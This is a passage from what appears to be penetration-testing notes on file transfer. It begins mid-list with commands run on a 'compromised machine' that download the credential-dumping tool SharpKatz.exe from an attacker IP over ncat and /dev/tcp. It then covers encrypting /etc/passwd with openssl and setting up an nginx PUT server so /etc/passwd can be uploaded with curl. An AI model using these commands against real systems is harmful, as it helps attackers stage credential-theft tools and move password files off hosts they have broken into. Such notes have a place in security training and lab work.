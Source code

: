 ### Compromised Machine Connect to Ncat to Receive the File
- `ncat 192.168.49.128 443 --recv-only > SharpKatz.exe`

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
- `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`

# Protected File Transfers
## File Encryption on Linux
### Encrypting /etc/passwd with openssl
- `openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc`

### Decrypt passwd.enc with openssl
- `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd`
# Catching Files over HTTP/S
## Nginx - Enabling PUT
### Create a Directory to Handle Uploaded Files
- `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`

### Change the Owner to www-data
- `sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`

### Create Nginx Configuration File
Create the Nginx configuration file by creating the file /etc/nginx/sites-available/upload.conf with the contents:
```
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

### Symlink our Site to the sites-enabled Directory
- `sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`

### Start Nginx
- `sudo systemctl restart nginx.service`

### Upload File Using cURL
- `curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt`
